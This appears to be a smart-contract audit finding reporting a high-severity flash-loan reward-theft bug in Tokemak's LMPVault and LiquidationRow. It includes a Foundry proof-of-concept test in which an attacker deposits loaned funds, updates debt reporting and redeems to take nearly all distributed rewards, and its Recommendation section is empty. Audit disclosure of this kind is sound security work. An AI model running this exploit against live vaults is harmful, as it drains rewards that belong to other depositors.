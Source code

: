 Vast Teal Bat

high

# An attacker can monitor `LiquidationRow.liquidateVaultsForToken()` function, then use flash loan to steal all rewards from users
## Summary

An attacker can monitor `LiquidationRow.liquidateVaultsForToken()` function, then use flash loan to steal all rewards from users.

## Vulnerability Detail

Here is an overview of the steps the attacker takes to exploit the vulnerability:

1. **Monitoring the Liquidation Process**: The attacker monitors the execution of the `LiquidationRow.liquidateVaultsForToken()` function, which is responsible for distributing rewards to destination vaults.

2. **Flash Loan Deposit**: When the rewards are distributed and available in the destination vaults, the attacker uses a flash loan to deposit a substantial amount of assets into `LMPVaults` associated with these destination vaults.

3. **Update Debt Reporting**: After depositing the assets, the attacker updates the debt reporting mechanism in order to claim rewards.

4. **Redeem Shares**: The attacker then redeems all of their shares and repays the flash loan, obtaining a substantial portion of the rewards.

Here is the POC for the attack:

```solidity
    function test_attacker_monitor_when_rewards_are_distributed() public {
        _accessController.grantRole(Roles.SOLVER_ROLE, address(this));
        _accessController.grantRole(Roles.LMP_FEE_SETTER_ROLE, address(this));

        // Alice is going to deposit 1000 asset
        address alice = vm.addr(1111);
        vm.startPrank(alice);
        _asset.mint(alice, 1000);
        _asset.approve(address(_lmpVault), 1000);
        _lmpVault.deposit(1000, alice);
        vm.stopPrank();

        // Bob is going to deposit 2000 asset
        address bob = vm.addr(2222);
        vm.startPrank(bob);
        _asset.mint(bob, 2000);
        _asset.approve(address(_lmpVault), 2000);
        _lmpVault.deposit(2000, bob);
        vm.stopPrank();

        // Deployed 1000 asset to DV1
        _underlyerOne.mint(address(this), 1000);
        _underlyerOne.approve(address(_lmpVault), 1000);
        _lmpVault.rebalance(
            address(_destVaultOne),
            address(_underlyerOne), // tokenIn
            1000,
            address(0), // destinationOut, none when sending out baseAsset
            address(_asset), // baseAsset, tokenOut
            1000
        );

        // Distribute DV1 rewards
        // In a real scenario, the attacker will monitor when liquidationRow.liquidateVaultsForToken() function is called
        // for simplicity, in this poc, we use queueNewRewards() in place of liquidateVaultsForToken())
        _accessController.grantRole(
            Roles.DV_REWARD_MANAGER_ROLE,
            address(this)
        );
        _accessController.grantRole(Roles.LIQUIDATOR_ROLE, address(this));
        _asset.mint(address(this), 2000);
        _asset.approve(_destVaultOne.rewarder(), 2000);
        IMainRewarder(_destVaultOne.rewarder()).queueNewRewards(2000);

        // Roll the block so that the rewards we queued earlier will become available
        vm.roll(block.number + 10_000);

        /** Right after the rewards become available, the attacker will use flash loan to deposit a large amount of assets,
        then update the debt reporting and redeem all shares (in the same transaction) in order to get away with most of the rewards */

        // The attacker uses flash loan to get 1_000_000_000 assets here
        address attacker = vm.addr(12345);
        vm.startPrank(attacker);
        _asset.mint(attacker, 1_000_000_000);
        _asset.approve(address(_lmpVault), 1_000_000_000);
        // The attacker deposits the loaned assets
        _lmpVault.deposit(1_000_000_000, attacker);

        // Then updates the debt reporting
        address[] memory dvAddresses = new address[](1);
        dvAddresses[0] = address(_destVaultOne);
        _lmpVault.updateDebtReporting(dvAddresses);

        // Finally redeems all shares (and repays the flash loan, but we skip that step in this poc)
        uint256 assetsAfter = _lmpVault.redeem(
            _lmpVault.balanceOf(attacker),
            attacker,
            attacker
        );
        vm.stopPrank();

        // The attacker gets away with most of the rewards in the vault (1999/2000)
        assertEq(assetsAfter, 1_000_001_999);

        // Alice does not get any rewards
        vm.startPrank(alice);
        uint256 aliceAssets = _lmpVault.redeem(
            _lmpVault.balanceOf(alice),
            alice,
            alice
        );
        assertEq(aliceAssets, 1000);
        vm.stopPrank();

        // Bob gets tiny rewards
        vm.startPrank(bob);
        uint256 bobAssets = _lmpVault.redeem(
            _lmpVault.balanceOf(bob),
            bob,
            bob
        );
        assertEq(bobAssets, 2001);
    }
```

## Impact

An attacker can acquire all rewards, leading to significant financial loss for other users in the form of rewards.

## Code Snippet

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/liquidation/LiquidationRow.sol#L167-L180
https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L628-L630

## Tool used

Manual Review

## Recommendation

